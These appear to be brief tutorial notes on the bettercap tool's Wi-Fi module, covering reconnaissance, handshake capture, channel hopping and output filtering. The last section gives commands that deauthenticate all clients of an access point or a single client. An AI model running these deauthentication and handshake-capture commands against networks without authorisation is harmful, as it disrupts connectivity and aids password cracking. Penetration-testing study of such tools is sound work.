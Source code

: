 `# bettercap -iface wlan0`

Bettercap supports 4 standards:
- Bluetooth LE
- HID on 2.4GHz
- Ethernet
- Wi-Fi <-- the one we are interested in

Wi-Fi module has several functions:
- recon: scan the 802.11 spectrum and capture handshakes
- deauth: to deauth
- show: discover networks
- ap: create rogue AP

`# wifi.recon on`
`# wifi.recon.channel 6,11` only hop on channels 6 and 11 (to stop this, run `# wifi.recon.channel clear`)

To limit the output:
`# events.ignore wifi.ap.new`
`# events.ignore wifi.client.new`
`# events.ignore wifi.client.probe`

To show wifi stations:
`# wifi.show`

To run a command continously (so that it updates the stdout output)
`# set ticker.commands "clear; wifi.show"`
`# ticker on`


___

#### Deauthenticating a client

`# wifi.recon on;`
`# wifi.deauth <AP_bssid>` to deauth all clients connected to <AP_bssid>
`# wifi.deauth <client_bssid>` to deauth one client